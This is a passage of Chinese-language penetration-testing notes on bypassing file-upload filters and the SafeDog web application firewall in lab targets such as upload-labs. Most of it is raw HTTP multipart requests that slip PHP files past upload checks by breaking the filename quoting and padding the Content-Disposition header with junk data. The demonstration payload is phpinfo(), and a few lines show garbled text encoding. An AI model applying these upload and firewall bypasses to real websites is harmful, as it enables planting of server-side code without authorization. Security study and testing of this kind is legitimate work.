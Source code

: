 ```bash
å¼å§ä¸ä¼ 
-----------------------------276594773132894662704244861418--

```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627899546378-8de44e66-4ac0-45dd-bbd1-86be5ef92dde.png#clientId=uddea3477-8c3f-4&from=paste&height=262&id=u8718b380&originHeight=524&originWidth=1918&originalType=binary&ratio=1&size=109953&status=done&style=none&taskId=uc8d9d7ed-dcb9-4d35-937c-429a82494a4&width=959)<br />只使用一个双引号，成功上传文件info5.php
```bash
POST /vul/unsafeupload/servercheck.php HTTP/1.1
Host: 10.1.1.6:88
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------276594773132894662704244861418
Content-Length: 368
Origin: http://10.1.1.6:88
Connection: close
Referer: http://10.1.1.6:88/vul/unsafeupload/servercheck.php
Cookie: PHPSESSID=e405r8e634hhjk7su64ofmjknl
Upgrade-Insecure-Requests: 1

-----------------------------276594773132894662704244861418
Content-Disposition: form-data;name="uploadfile"; filename="info5.php
Content-Type: image/jpeg

<?php phpinfo(); ?>
-----------------------------276594773132894662704244861418
Content-Disposition: form-data; name="submit"

å¼å§ä¸ä¼ 
-----------------------------276594773132894662704244861418--

```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627900010071-761d120d-72a8-4d22-9aa5-53d7add3fdcf.png#clientId=uddea3477-8c3f-4&from=paste&height=304&id=u48232a71&originHeight=607&originWidth=1920&originalType=binary&ratio=1&size=119162&status=done&style=none&taskId=u5b13ae48-56ff-4b5a-84be-167e4055e8e&width=960)
<a name="L9jSI"></a>
### uploads+安全狗绕过

<a name="G0Lsb"></a>
#### 数据溢出
```bash
POST /Pass-06/index.php?action=show_code HTTP/1.1
Host: 10.1.1.6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------219208409912899756444268510117
Content-Length: 378
Origin: http://10.1.1.6
Connection: close
Referer: http://10.1.1.6/Pass-06/index.php?action=show_code
Upgrade-Insecure-Requests: 1

-----------------------------219208409912899756444268510117
Content-Disposition: form-data; name="upload_file";填充大量的垃圾数据; filename="info.Php"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
-----------------------------219208409912899756444268510117
Content-Disposition: form-data; name="submit"

```